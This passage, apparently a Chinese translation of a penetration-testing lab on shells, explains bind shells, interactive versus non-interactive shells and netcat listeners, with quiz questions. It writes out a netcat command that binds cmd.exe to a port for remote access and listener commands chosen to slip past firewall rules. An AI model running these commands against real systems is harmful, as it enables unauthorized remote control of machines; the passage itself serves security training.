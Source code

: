 在目标机上：
`nc -lvnp <port> -e "cmd.exe"`
    
在攻击机上：
`nc <目标机ip> <port>`

![](https://i.imgur.com/Twbii0P.png)

如您所见，这再次让我们在目标机上执行代码。请注意，这并非特定于 Windows。 这里要理解的重要一点是目标在监听特定端口，然后我们主动连接到目标的这个端口。

与此任务相关的最后一个概念是交互性。shell 可以是交互式的，也可以是非交互式的。 

- 交互式：如果您使用过 Powershell、Bash、Zsh、sh 或任何其他标准 CLI 环境，那么您将习惯于交互式 shell。交互式的 shell 允许您在执行程序后与程序进行交互。例如，采用 SSH 登录的提示：

![](https://i.imgur.com/G6sfzlQ.png)

在这里您可以看到它以交互方式询问用户键入 yes 或 no 以继续连接。这是一个交互式程序，需要交互式 shell 才能运行。

- 非交互式 shell 不会给你那种 “奢侈” 。在非交互式 shell 中，您只能使用不需要用户交互即可正常运行的程序。不幸的是，大多数简单的反向 shell 和正向 shell 都是非交互式的，这会使进一步的利用变得更加棘手。让我们看看当我们尝试在非交互式 shell 中运行 SSH 时会发生什么：

![](https://i.imgur.com/RLywVYp.png)

请注意，whoami 命令（非交互式）执行地很好，但 ssh 命令（交互式）根本没有给我们任何输出。

>注：交互式命令的输出确实会出现在某个地方，但是，弄清楚在哪里是您自己尝试的练习。可以说交互式程序在非交互式 shell 中不起作用。 此外， 上图的 listener 命令是用于演示的攻击机独有的别名，是 `sudo rlwrap nc -lvnp 443` 命令的简写方式，将在后续任务中介绍。除非已在本地配置别名，否则它将无法在任何其他计算机上运行。

**回答下列问题：**
1. 哪种类型的 shell 会回连到您计算机上的侦听端口，反向 \(R\) 或绑定 (B)？
2. 您已将恶意 shell 代码注入网站。您收到的 shell 可能是交互式的吗？ （是或否）
3. 使用 bind shell 时，您会在攻击者 (A) 还是目标 (T) 上执行侦听器？

### 2.4 Netcat

如前所述，Netcat 是渗透测试人员工具包中最基本的工具之一，涉及任何类型的网络。有了它，我们可以做各种各样有趣的事情，但现在让我们关注和 netcat 相关的 shell。

++Reverse Shells++

在前面的任务中，我们看到反弹 shell 需要 shellcode 和一个侦听器。执行 shell 的方法有很多种，因此我们将从查看侦听器开始。 

使用 Linux 启动 netcat 侦听器的语法如下：

`nc -lvnp <端口号> `
- `-l` 用于告诉 netcat 这将是一个监听器
- `-v` 用于请求详细输出 
- `-n` 告诉 netcat 不解析主机名及DNS，在此不过多阐述。 
- `-p` 表示要监听的端口。 

上一个任务中的示例使用 443 端口。实际上，您可以使用任何您喜欢的端口，只要还没有服务使用它即可。

>请注意，如果您选择使用小于 1024 的端口，则在启动侦听器时需要加上 `sudo`。

使用众所周知的端口号（80、443 或 53 是不错的选择）通常是个好主意，因为这更有可能通过目标上的出站防火墙规则。 比如以下命令在 443 端口上打开一个侦听器：

```bash
sudo nc -lvnp 443
```
